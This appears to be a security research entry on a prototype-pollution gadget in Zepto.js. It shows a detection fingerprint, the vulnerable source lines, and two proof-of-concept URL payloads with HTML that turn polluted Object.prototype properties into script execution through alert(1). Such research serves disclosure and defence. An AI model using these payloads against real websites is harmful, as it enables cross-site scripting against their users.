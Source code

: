 ## Zepto.js

URL: https://zeptojs.com/

### JS Fingerprint
```
(typeof $ !== 'undefined' && typeof $.zepto !== 'undefined')
```

### Vulnerable code fragment
https://github.com/madrobby/zepto/blob/763b3d6dc3b4350759ed30aa196cd2b6e39efcfb/src/zepto.js#L140-L162
```js
      $.each(properties, function(key, value) {
        if (methodAttributes.indexOf(key) > -1) nodes[key](value)
        else nodes.attr(key, value)
      })
```

### PoC

#### PoC #1

```
?__proto__[onerror]=alert(1)
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/zepto/1.2.0/zepto.js"></script>
<script>
    Object.prototype.onerror="alert(1)"
</script>
<script>
    $("<img/src>", {id: "x"})
</script>
```

#### PoC #2

```
?__proto__[html]=<img/src/onerror%3dalert(1)>
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/zepto/1.2.0/zepto.js"></script>
<script>
    Object.prototype.html="<img/src/onerror=alert(1)>"
</script>
<script>
    $("<div>", {id: "x"})
</script>
```